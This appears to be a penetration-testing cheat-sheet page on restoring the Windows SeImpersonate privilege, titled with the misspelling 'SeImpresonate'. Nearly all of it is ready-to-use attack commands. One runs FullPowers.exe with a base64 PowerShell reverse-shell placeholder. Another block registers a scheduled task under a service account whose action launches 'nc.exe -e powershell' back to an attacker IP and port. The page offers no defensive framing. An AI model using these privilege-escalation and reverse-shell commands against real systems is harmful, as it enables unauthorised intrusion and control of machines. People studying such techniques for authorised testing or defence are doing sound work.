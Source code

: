 ```yaml
---
title: "SeImpresonate"
date: 2025-7-25
tags: ["SeImpresonate", "Windows", "Potato", "Privilege Escalation", "Fullpower", "Scheduled Tasks"]
---
```


### Abuse #1: Recover SeImpresonate

```console
.\FullPowers.exe -c "whoami /priv"
```

```console
# Revshell
.\FullPowers.exe -c "<POWERSHELL_3_BASE64>"
```

<small>*Ref: [FullPower](https://github.com/itm4n/FullPowers/releases/tag/v0.1)*</small>

### Abuse #2: Recover Tokens via Schedule Tasks

```console
# Create a list of privileges 
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"
```

```console
# Create a Principal for the task 
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "<SERVICE_ACCOUNT>" -LogonType ServiceAccount -RequiredPrivilege $Privs
```

```console
# Create an action for the task 
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `C:\\Windows\\Tasks\\nc.exe -e powershell <LOCAL_IP> <LOCAL_PORT>`""
```

```console
# Create the task
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask" -Principal $TaskPrincipal
```

```console
# Start the task
Start-ScheduledTask -TaskName "SomeTask"
```
